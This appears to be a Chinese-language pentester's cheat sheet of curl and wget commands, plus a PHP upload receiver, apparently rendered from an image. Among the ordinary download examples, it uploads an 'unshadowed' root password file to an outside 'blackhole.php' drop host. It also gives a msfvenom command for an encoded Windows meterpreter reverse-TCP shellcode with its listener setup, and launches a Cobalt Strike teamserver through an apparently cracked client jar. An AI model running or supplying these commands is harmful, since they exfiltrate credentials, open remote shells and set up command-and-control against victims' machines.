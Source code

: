 curl上传文件
curl -F 'file=@/root/unshadowed.txt;filename=newname' https://chasers.fun/blackhole.php
php后台接收curl文件:
<?php
$uploaddir = '/home/wwwroot/default/';
$uploadfile = $uploaddir . basename($_FILES['file']['name']);
echo '<pre>';
if (move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)) {
    echo "File is valid, and was successfully uploaded.\n";
} else {
    echo "Possible file upload attack!\n";
}
echo 'Here is some more debugging info:';
print_r($_FILES);
print "</pre>";
?>
curl -X GET 'http://localhost:5000/locations?id=3'
curl --data "param1=value1&param2=value2" http://locahost:8080/weather
curl -X POST -d @filename http://locahost:8080/weather
curl -X POST -H "Content-Type: application/json" http://example.com/some/path -d '{"version": "1.1", "method":"progr","id":2,"params":{"call":...} }'
curl -O https://cdn.keycdn.com/css/animate.min.css
curl -o output.file http://server1.cyberciti.biz/file.tar.gz
curl -u Username:Password http://server1.cyberciti.biz/file/path/data.tar.gz
curl -k -O -L https://github.com/pyinstaller/pyinstaller/releases/download/v3.2.1/PyInstaller-3.2.1.zip

wget上传文件
wget "http://www.imf.org/external/np/fin/data/rms_mth.aspx?SelectDate=2008-09-30&reportType=SDRCV"
wget does not currently support "multipart/form-data" for transmitting POST data; only "application/x-www-form-urlencoded".
wget --post-data 'user=foo&password=bar' http://example.com/auth.php
wget --no-check-certificate --header="Content-type: multipart/form-data boundary=FILEUPLOAD" --post-file file https://chasers.fun/blackhole.php
wget https://code.jquery.com/jquery-3.3.1.min.js -O myFile.txt
wget -m http://domain.com (HTML File)
wget -i urls.txt
wget --http-user=USERNAME --http-password=PASSWORD http://SOMETURLTOFILE
wget 'https://x.x.x.x/get_ips' --no-check-certificate

shellcode生成:
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=192.168.183.138 lport=4444   -f c
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.183.138
set LPORT 4444
set EnableStageEncoding true

cs:
javaw -Dfile.encoding=UTF-8 -javaagent:CobaltStrikeCN.jar -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -jar cobaltstrike.jar
./teamserver you_ip you_passwd
